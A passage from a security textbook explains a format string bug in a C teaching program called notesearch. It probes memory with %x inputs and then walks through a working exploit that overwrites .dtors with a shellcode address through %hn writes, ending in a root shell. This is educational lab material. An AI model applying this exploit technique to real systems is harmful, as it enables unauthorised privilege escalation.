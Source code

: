 # *__Another notesearch Vulnerability__*

In addition to the _buffer overflow_ vulnerability, the _notesearch_ program from Chapter 2 also suffers from a _format string_ vulnerability. This vulnerability is shown in bold in the code listing below.

```c
int print_notes(int fd, int uid, char* searchstring) 
{
    int note_length;
    char byte = 0, note_buffer[100];

    note_length = find_user_note(fd, uid);
    if (note_length == -1) // If end of file reached,
        return 0;          // return 0.

    read(fd, note_buffer, note_length); // Read note data.
    note_buffer[note_length] = 0; // Terminate the string.

    if (search_note(note_buffer, searchstring)) // If searchstring found,
    ////////////////////// VULNERABLE LINE //////////////////////
        printf(note_buffer);                    // print the note.
    ////////////////////// VULNERABLE LINE //////////////////////
    return 1;
}
```

This function reads the __note_buffer__ from the file and prints the contents of the note without supplying its own format string. While this buffer can’t be directly controlled from the command line, the vulnerability can be exploited by sending exactly the right data to the file using the _notetaker_ program and then opening that note using the _notesearch_ program. In the following output, the _notetaker_ program is used to create notes to probe memory in the _notesearch_ program. This tells us that the _eighth_ function parameter is at the beginning of the buffer.

<pre style="color: white;">
reader@hacking:~/booksrc $ ./notetaker AAAA$(perl -e 'print "%x."x10')
[DEBUG] buffer @ 0x804a008: 'AAAA%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.'
[DEBUG] datafile @ 0x804a070: '/var/notes'
[DEBUG] file descriptor is 3
Note has been saved.
reader@hacking:~/booksrc $ ./notesearch AAAA
[DEBUG] found a 34 byte note for user id 999
[DEBUG] found a 41 byte note for user id 999
[DEBUG] found a 5 byte note for user id 999
[DEBUG] found a 35 byte note for user id 999
AAAAbffff750.23.20435455.37303032.0.0.1.41414141.252e7825.78252e78 .
-------[ end of note data ]-------
reader@hacking:~/booksrc $ ./notetaker BBBB%8\$x
[DEBUG] buffer @ 0x804a008: 'BBBB%8$x'
[DEBUG] datafile @ 0x804a070: '/var/notes'
[DEBUG] file descriptor is 3
Note has been saved.
reader@hacking:~/booksrc $ ./notesearch BBBB
[DEBUG] found a 34 byte note for user id 999
[DEBUG] found a 41 byte note for user id 999
[DEBUG] found a 5 byte note for user id 999
[DEBUG] found a 35 byte note for user id 999
[DEBUG] found a 9 byte note for user id 999
BBBB42424242
-------[ end of note data ]-------
reader@hacking:~/booksrc $
</pre>

Now that the relative layout of memory is known, exploitation is just a matter of overwriting the _.dtors section_ with the address of injected shellcode.

<pre style="color: white;">
reader@hacking:~/booksrc $ export SHELLCODE=$(cat shellcode.bin)
reader@hacking:~/booksrc $ ./getenvaddr SHELLCODE ./notesearch
SHELLCODE will be at 0xbffff9e8
reader@hacking:~/booksrc $ gdb -q
(gdb) p 0xbfff - 8
$1 = 49143
(gdb) p 0xf9e8 - 0xbfff
$2 = 14825
(gdb) quit
reader@hacking:~/booksrc $ nm ./notesearch | grep DTOR
08049c60 d __DTOR_END__
08049c5c d __DTOR_LIST__
reader@hacking:~/booksrc $ ./notetaker $(printf "\x62\x9c\x04\x08\x60\x9c\x04\
x08")%49143x%8\$hn%14825x%9\$hn
[DEBUG] buffer @ 0x804a008: 'b?`?%49143x%8$hn%14825x%9$hn'
[DEBUG] datafile @ 0x804a070: '/var/notes'
[DEBUG] file descriptor is 3
Note has been saved.
reader@hacking:~/booksrc $ ./notesearch 49143x
[DEBUG] found a 34 byte note for user id 999
[DEBUG] found a 41 byte note for user id 999
[DEBUG] found a 5 byte note for user id 999
[DEBUG] found a 35 byte note for user id 999
[DEBUG] found a 9 byte note for user id 999
[DEBUG] found a 33 byte note for user id 999
21
-------[ end of note data ]-------

sh-3.2# whoami
root
sh-3.2#
</pre>